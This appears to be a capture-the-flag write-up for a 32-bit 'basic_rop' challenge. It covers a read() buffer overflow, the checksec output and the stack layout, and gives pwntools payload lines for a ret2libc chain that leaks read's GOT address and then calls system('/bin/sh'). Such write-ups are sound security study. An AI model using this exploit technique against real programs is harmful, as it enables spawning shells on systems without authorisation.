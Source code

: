 **Read source code**
- `basic_rop` but x86
- `read(0, buf, 0x400);`: bufferoverflow => ROP
- Stack
```
buf (rbp - 0x44)
ret (rbp + 0x4)
write_plt
main
1
read_got
4
---
system
0
binsh
```
- `Checksec` in gdb
```
Arch:     i386
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8046000)
RUNPATH:    b'.'
Stripped:   No
```
- So the idea is that use gadget to change the execution flow of a program without injecting new code.
- Then find `libc_base` and call `system("/bin/sh")`
---  
***EPLOIT***
```
write(1, read_got, 4)
system("/bin/sh")
```
- The main different is that all parameters are passed on the stack
- Get address of read_got by `write(1, read_got,)`
```
payload = p32(write_plt) + p32(main) + p32(1) + p32(read_got) + p32(4) # func -> ret addr -> 1st -> 2 nd -> 3 rd
```
- Calculate `system = libc_base + system_offset`
- Overwrite address of `read_got` with `system + binsh` by using `read(0, read_got,)`
- Call `system("/bin/sh")` by `payload = p32(system) + p32(0) + p32(binsh)`
- Remember to use `pwninit` to patch binary and library to run program properly with desired environment
